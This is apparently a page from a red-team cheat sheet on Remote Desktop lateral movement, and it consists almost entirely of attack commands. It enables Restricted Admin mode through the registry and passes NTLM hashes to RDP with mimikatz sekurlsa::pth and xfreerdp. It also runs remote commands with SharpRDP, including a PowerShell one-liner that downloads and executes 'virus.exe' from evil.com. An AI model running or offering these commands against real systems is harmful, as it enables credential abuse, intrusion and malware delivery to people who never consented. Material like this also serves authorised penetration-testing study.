 # Remote desktop

## Windows RDP

{% hint style="info" %}
/admin allows to not disconnect connected user
{% endhint %}

```csharp
 mstsc.exe /admin
```

### Restricted Admin

Allow to use the current user credentials session to make a network connection without entering a password.

#### Enable Restricted admin

```csharp
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

```csharp
 mstsc.exe /restrictedadmin 
```

### Using mimikatz

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## SharpRDP

### RDP in console

```csharp
SharpRDP.exe computername=target command=notepad username=domain\user password=password!
```

#### Remote code Execution

```text
sharprdp.exe computername=target command="powershell (New-Object
System.Net.WebClient).DownloadFile('http://evil.com/virus.exe',
'C:\Windows\Tasks\virus.exe'); C:\Windows\Tasks\virus.exe" username=domain\user password=password!
```



## Linux RDP

### xfreerdp

```csharp
xfreerdp /d:domain  /u:user  /pth:NTLM_HASH  /v:DEST_IP
```

### rdesktop

```csharp
rdesktop DEST_IP   -u Domain\User -p Password
```

